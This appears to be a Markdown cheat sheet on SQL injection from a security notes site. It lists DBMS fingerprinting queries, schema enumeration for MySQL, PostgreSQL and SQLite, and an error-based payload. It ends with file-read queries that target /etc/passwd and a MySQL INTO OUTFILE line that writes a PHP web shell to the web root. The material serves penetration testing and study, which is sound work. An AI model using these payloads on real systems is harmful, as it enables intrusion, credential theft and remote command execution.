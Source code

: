 ```yaml
---
title: "SQL Injection"
description: "Overview of SQL Injection"
lead: "Overview of SQL Injection"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "topics"
weight: 620
toc: true
---
```


## DMBS Identification

### Version

| DBMS        | Query                      | Output (example) |
| ----------- | -------------------------- | ---------------- |
| SQLite      | `SELECT sqlite_version()`  | 3.42.0           |
| MySQL       | `SELECT VERSION()`         | 5.7.38           |
| PostgreSQL  | `SELECT version()`         | PostgreSQL 14.8 ... |

### SQL Functions

| PostgreSQL          | SQLite              | MySQL               |
| ------------------- | ------------------- | ------------------- |
| `'a'\|\|'b'`        | `'a'\|\|'b'`        | `'a' 'b'`           |
| `POW(3,2)`          | `POW(3,2)`          | `POW(3,2)`          |
| `CHR(65)`           | `CHAR(65)`          | `CHAR(65)`          |
| `ASCII('A')`        | `UNICODE('A')`      | `ASCII('A')`        |
| `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` |
| `PG_SLEEP(4)`       | *Unknown*           | `SLEEP(4)`          |

## Database enumeration

### MySQL

```
SELECT GROUP_CONCAT(schema_name,',') FROM information_schema.schemata;
SELECT GROUP_CONCAT(table_name,',') FROM information_schema.tables;
SELECT GROUP_CONCAT(column_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### PostgreSQL

```
SELECT string_agg(table_name,',') FROM information_schema.tables;
SELECT string_agg(table_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### SQLite

```
SELECT GROUP_CONCAT(tbl_name,',') FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE tbl_name='users';
SELECT GROUP_CONCAT(name,',') FROM PRAGMA_TABLE_INFO('users');
```

## Error based

### PostgreSQL

```
' AND 1=CAST((SELECT username FROM users) AS int)--
```

## File read/write & RCE

### PostgreSQL

```
select pg_ls_dir('.');
select pg_read_file('/etc/passwd');
```

### MySQL

```
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php system($_REQUEST[c]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
